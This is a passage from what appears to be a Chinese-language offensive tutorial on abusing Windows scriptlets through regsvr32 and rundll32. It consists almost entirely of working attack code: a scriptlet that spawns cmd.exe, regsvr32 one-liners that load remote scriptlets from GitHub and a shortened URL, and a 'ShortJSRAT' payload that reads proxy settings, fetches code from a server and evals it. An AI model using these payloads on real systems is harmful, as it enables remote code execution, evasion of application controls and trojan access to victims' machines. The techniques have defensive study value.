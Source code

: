    ```xml
   
   <public>
       <method name="Exec"></method>
   </public>
   <script language="JScript">
   <![CDATA[
   
       function Exec()
       {
           var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
       }
   
   ]]>
   </script>
   
   </scriptlet>
   
   #### regsvr32 调用
   regsvr32 /s https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ca
   /s 忽略错误
   
   ##js 调用
   var ref = new ActiveXObject("Empire");
   var c=ref.Exec();
   ```

5. ##### 通过卸载控件 来 实现权限绕过

   ```
   regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master
   ```

6. ##### 优化 添加自动识别代理

   ```xml
   <?XML version="1.0"?>
   <scriptlet>
   <registration 
       progid="ShortJSRAT"
       classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
   	<!-- Learn from Casey Smith @subTee -->
   	<script language="JScript">
   		<![CDATA[
   	
   			rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://127.0.0.1/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
   		new ActiveXObject("WScript.Shell").Run(rat,0,true);
   	
   		]]>
   </script>
   </registration>
   </scriptlet>
   
   regsvr32 /s /n /u /i:https://goo.gl/ijB12k scrobj.dll  短连接的使用方法
   
   ```
